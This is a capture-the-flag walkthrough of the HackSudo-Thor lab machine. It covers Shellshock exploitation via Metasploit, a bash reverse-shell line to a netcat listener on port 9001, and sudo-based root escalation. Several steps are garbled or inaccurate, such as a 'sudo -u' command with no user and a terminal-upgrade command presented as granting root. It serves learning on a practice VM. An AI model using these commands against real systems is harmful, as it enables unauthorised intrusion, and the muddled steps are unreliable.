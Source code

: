                                                    #       HackSudo-Thor WalkThrough - Faton Haxhiu


First in order to find the IP Address of the machine we run netdiscover command in our case is 10.0.2.15. 

![1 1](https://github.com/FatonHaxhiu/HackSudo-Thor/assets/67721504/bfeed9db-c1f6-48e3-b21b-801be763bb36)

When we navigate to source good of the website we found that there may be a shellshock vulnerability (Apache server) based on cgi-bin.

![1](https://github.com/FatonHaxhiu/HackSudo-Thor/assets/67721504/9be0c7f1-efd9-4745-b1e8-3cdcf4d9f743)

We run dirb http://10.0.2.15/cgi-bin -x .sh to find vulnerability which can have a module in metasploit.

![2](https://github.com/FatonHaxhiu/HackSudo-Thor/assets/67721504/20e90d57-d9c1-4487-a09b-a6393957abf8)

After that we open metasploit and we use multi/http/apache_mod_cgi_bash_env_exec exploit. 
Follow these steps in metasploit:
-search shellshoc exploit 
-use  multi/http/apache_mod_cgi_bash_env_exec
-set host 'IP for victim'
-set targeturi /cgi-bin/shell.sh
-run 
We have a shell created!

![3](https://github.com/FatonHaxhiu/HackSudo-Thor/assets/67721504/44a80511-fc02-4db3-a507-b3b899793408)

If you are not fan of shell e metasploit you can redirect shell by open a netcat connection. 
Open another window in terminal a open netcat connection in our case we use port 9001 nc -nlvp 9001

![5](https://github.com/FatonHaxhiu/HackSudo-Thor/assets/67721504/a7d9f20b-2f47-45e7-89c1-3008554c95e9)

After you have open your netcat in shell in metasploit write: bash -c 'bash -i >& /dev/tcp/(host IP)/9001 0>&1'. This is going to open shell in your netcat window. 

![4](https://github.com/FatonHaxhiu/HackSudo-Thor/assets/67721504/fc0322af-ce47-4e5b-838c-2442f8529586)

Now we gonna try Privilege escalation to us, first we will check what can find in shell such us useful information or scripts. We can do this by doing sudo -l we found there a scrip we can execute /home/thor/./hammer.sh
We go ahead and we execute it sudo -u /home/thor/./hammer.sh we can scripts it need code to execute this can lead us to get full-shell access this we can do by using bash as main input. 

![7](https://github.com/FatonHaxhiu/HackSudo-Thor/assets/67721504/b69502a8-b20b-41b5-95b7-d322e451b5a0)

Running this command SHELL=/bin/bash script -q /dev/null is going to grant root access. 

We have come to the part of Root privilege escalation this can be done by just running this command: sudo service ../../bin/bash

![8](https://github.com/FatonHaxhiu/HackSudo-Thor/assets/67721504/edd5ec0f-3679-46c3-9be7-da79f5a23b31)


Congratulations you have now full access. 


